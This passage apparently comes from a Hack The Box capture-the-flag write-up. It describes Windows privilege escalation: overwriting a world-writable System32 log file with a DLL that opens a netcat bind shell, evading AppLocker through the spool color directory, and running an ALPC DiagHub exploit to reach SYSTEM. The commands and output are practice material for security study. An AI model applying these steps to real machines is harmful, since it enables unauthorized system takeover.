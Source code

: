 I have full privileges to that file:

```
C:\Projects>icacls c:\windows\system32\yolo.log

c:\windows\system32\yolo.log Everyone:(F)

Successfully processed 1 files; Failed processing 0 files
```

So that means I can replace it with an arbitrary DLL and load it using the Diagnostics Hub Standard Collector Service privilege escalation exploit.

I modified the exploit from [https://github.com/realoriginal/alpc-diaghub](https://github.com/realoriginal/alpc-diaghub)

![](/assets/images/htb-writeup-hackback/alpc1.png)

I created a simple DLL that executes netcat to spawn another bind shell on port 4300:

![](/assets/images/htb-writeup-hackback/pwndll1.png)

I then uploaded both files to their respective directories. The .exe needs to be in `/Windows/System32/spool/drivers/color` so I can avoid AppLocker.
```
# ./hackback_write.py "/Windows/System32/spool/drivers/color/ALPC-TaskSched-LPE.exe" ALPC-TaskSched-LPE.exe
# ./hackback_write.py "/Windows/System32/yolo.log" PwnDll.dll
```

Executing the exploit...

```
C:\Windows\System32\spool\drivers\color>ALPC-TaskSched-LPE.exe
ALPC-TaskSched-LPE.exe
[+] Loading DLL
Creating directory: C:\Windows\System32\spool\drivers\color\..\..\..\..\..\programdata\etw
[+] If everything has gone well, you should have a SYSTEM shell!
```
